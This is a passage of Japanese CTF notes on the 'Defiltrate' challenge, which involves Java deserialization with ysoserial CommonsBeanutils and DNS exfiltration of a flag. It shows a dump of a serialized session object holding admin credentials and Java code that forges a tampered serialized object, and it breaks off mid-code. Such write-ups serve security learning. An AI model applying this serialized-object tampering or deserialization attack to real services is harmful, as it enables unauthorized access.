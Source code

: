 多分JDGuiとかでjarファイルをデコンパイルして発見したのかな？？？  
## ysoserial CommonsBeanutils / reverse DNS Request with flag (Defiltrate)
https://r3billions.com/writeup-defiltrate-part1/  
- **entrypoint**  
よくわからんけど、たぶんリクエストを見ると`VIEW`というパラメータにBase64エンコードされたデータがPOSTされてて、`rO0AB`で始まってるからJavaのシリアライズされたデータだとわかる。  
これをSerializationDumperで解析するといかのように、いくつかのログイン関係の値らしい。  
```txt
values
    m_b64Payload
    (object)
        TC_STRING - 0x74
        newHandle 0x00 7e 00 03
        Length - 0 - 0x00 00
        Value -  - 0x
    m_login
    (object)
        TC_STRING - 0x74
        newHandle 0x00 7e 00 04
        Length - 5 - 0x00 05
        Value - admin - 0x61646d696e
    m_password
    (object)
        TC_STRING - 0x74
        newHandle 0x00 7e 00 05
        Length - 21 - 0x00 15
        Value - I love pink ponies <3 - 0x49206c6f76652070696e6b20706f6e696573203c33
    m_sessionID
    (object)
        TC_STRING - 0x74
        newHandle 0x00 7e 00 06
        Length - 2 - 0x00 02
        Value - 42 - 0x3432
```
`m_sessionID`の値を`42`から`0`,`1`に変えてみるような以下のシリアライズされたデータを作成しても何も変化がなかったらしい。  
```java
import java.io.*;
import java.util.*;

class WebSession implements Serializable {
    String m_b64Payload;
    String m_login;
    String m_password;
    String m_sessionID;
}

public class NewClass {

   public static void main(String [] args) {
      WebSession e = new WebSession();
      e.m_b64Payload = "eW91dHUuYmUvZFF3NHc5V2dYY1E=";
      e.m_login = "admin";
      e.m_password = "I love pink ponies <3";
      e.m_sessionID = "1";

      try {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream( baos );
        oos.writeObject( e );
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(baos.toByteArray()));
      } catch (IOException i) {
```